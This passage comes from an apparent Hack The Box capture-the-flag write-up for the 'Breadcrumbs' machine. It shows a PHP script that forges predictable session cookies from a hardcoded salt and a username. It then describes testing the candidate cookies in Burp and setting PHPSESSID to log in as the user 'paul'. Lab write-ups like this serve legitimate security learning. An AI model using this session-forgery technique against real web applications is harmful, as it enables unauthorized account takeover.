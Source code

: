 ```php
        for ($val = 0; $val < $max; $val++) {
                $key = "s4lTy_stR1nG_".$username[$val]."(!528./9890";
                $cookie = $username.md5($key);
                $iter_num = strval($val);
                $string_cookie = strval($cookie);
                echo "{$iter_num}: {$string_cookie}\n";
        }
        return;
}

/* Generate Some Cookies */
echo "Baking You Some Fresh Cookies!\n";
bake($argv[1]);
?>
```

Running this with `paul` gives, as expected, four possible cookies.

![](../HTB-pics/breadcrumbs/38.png)

If I go back intercept the login request in Burp, I can try each of the four until I get a `200 OK` instead of `302 Found`. The last key here does the trick:

![](../HTB-pics/breadcrumbs/40.png)

I can go back to Firefox, open `F12` and set `PHPSESSID` to the generated value. When I refresh, I'm logged in as `paul`.
